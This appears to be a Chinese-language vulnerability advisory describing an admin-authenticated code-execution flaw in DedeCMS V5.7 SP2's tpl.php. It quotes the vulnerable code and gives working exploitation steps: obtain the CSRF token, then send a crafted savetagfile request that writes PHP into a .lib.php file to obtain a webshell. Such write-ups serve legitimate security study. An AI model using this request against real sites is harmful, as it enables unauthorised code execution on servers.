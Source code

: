 # DedeCMS-V5.7-SP2后台存在代码执行漏洞.assets

## 影响版本

DedeCMS V5.7 SP2

## 漏洞简介

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。Dedecms V5.7 SP2版本中的tpl.php中存在代码执行漏洞,可以通过该漏洞在增加新标签中上传木马,获取webshell。该漏洞利用需要登录后台,并且后台的账户权限是管理员权限。


## 漏洞详情

默认后台地址 `/dede/`，文件 `dede/tpl.php` 中的251到281行。


	csrf_check();
		#filename和前面正则的匹配情况
	    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
	    {
	        ShowMsg('文件名不合法，不允许进行操作！', '-1');
	        exit();
	    }
	    require_once(DEDEINC.'/oxwindow.class.php');
		#搜索filename中匹配`\.lib\.php$#i`的部分，以空格代替
	    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
		#去掉反斜号
	    $content = stripslashes($content);
		#拼接文件名
	    $truefile = DEDEINC.'/taglib/'.$filename;
		#写入内容
	    $fp = fopen($truefile, 'w');
	    fwrite($fp, $content);
	    fclose($fp);

replace处理之后赋值给变量 $tagname 。但是写入文件的时候并没有用到$tagname 。
那为什么有这个$tagname，拼接文件名的时候，应该是拼接`tagname`

利用

	1.由于dedecms全局变量注册的特性，所以这里的content变量和filename变量可控。
	
	2.可以看到将content直接写入到文件中导致可以getshell。但是这里的文件名经过正则表达式，所以必须要.lib.php结尾。
	
	3.这里还有一个csrf_check()函数，即请求中必须要带token参数。


#### 漏洞利用

1. 首先获取`token`。访问域名 + `/dede/tpl.php?action=upload`

	http://127.0.0.1/uploads/dede/tpl.php?action=upload

	通过查看页面源码即可获得 token

![token](DedeCMS%20V5.7%20SP2%E5%90%8E%E5%8F%B0%E5%AD%98%E5%9C%A8%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/token.png)

2.然后访问 

	http://127.0.0.1/dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=<?php phpinfo();?>&token=你的token值



shell 地址

	http://127.0.0.1/include/taglib/secnote.lib.php

![1](DedeCMS%20V5.7%20SP2%E5%90%8E%E5%8F%B0%E5%AD%98%E5%9C%A8%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/1.png)


## 参考来源

DedeCMS-V5.7-SP2后台存在代码执行漏洞.assets：http://www.freebuf.com/vuls/164035.html

Dede CMS 下载中心：http://www.dedecms.com/products/dedecms/downloads/